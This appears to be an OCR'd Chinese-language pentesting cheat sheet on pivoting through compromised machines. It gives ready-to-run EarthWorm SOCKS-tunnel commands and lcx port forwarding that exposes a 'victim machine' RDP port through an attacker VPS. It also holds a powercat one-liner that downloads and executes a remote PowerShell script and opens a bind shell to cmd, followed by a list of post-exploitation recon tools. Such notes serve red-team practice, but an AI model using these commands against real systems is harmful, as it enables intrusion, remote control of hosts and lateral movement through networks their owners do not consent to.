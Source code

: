 	- 控制A、B机器，A能够访问B，B能够访问C，A有外网ip并可直接访问，通过A来使用B的流量访问C

		- B机器执行

			- ./ew -s ssocksd -l 9999

		- A机器

			- ./ew -s lcx_tran -l 1080 -f BIP -g 9999

		- 利用proxychains等类似工具可通过连接A的1080 端口的socks5，即可代理B服务器的网络

	- 控制A、B机器，A能够访问B，B能够访问C，A没有外网ip，通过A连接自己的外网vps来使用B的流量访问C

		- 自己vps执行

			- ./ew -s lcx_listen -l 1080 -e 8888

		- B机器执行

			- ./ew -s ssocksd -l 9999

		- A机器执行

			- ./ew -s lcx_slave -d vpsip -e 8888 -f BIP -g 9999

		- 利用proxychains等类似工具可通过连接你自己的vps的1080 端口的socks5，即可代理B服务器的网络

- lcx

	- 反向转发

		- 外网VPS机器监听

			- lcx.exe -listen 1111 2222

		- 受害者机器执行

			- lcx.exe -slave VPSip 1111 127.0.0.1 3389

		- 连接外网VPS机器的2222端口即是连接受害者机器的3389

	- 正向转发

		- A机器执行

			- lcx.exe -tran 1111 2.2.2.2 8080

		- 访问A机器的1111端口即是访问2.2.2.2的8080端口

- powercat

	- powershell "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -l -p 8000 -e cmd"

- mssql

	- https://github.com/blackarrowsec/mssqlproxy

### 信息收集

- LinEnum工具:底层系统的所有信息
- linux-exploit-suggester工具:分析主机系统识别缺失的补丁和漏洞
- rkhunter:
Unix-based tool that scans for rootkits, backdoors and possible local exploits
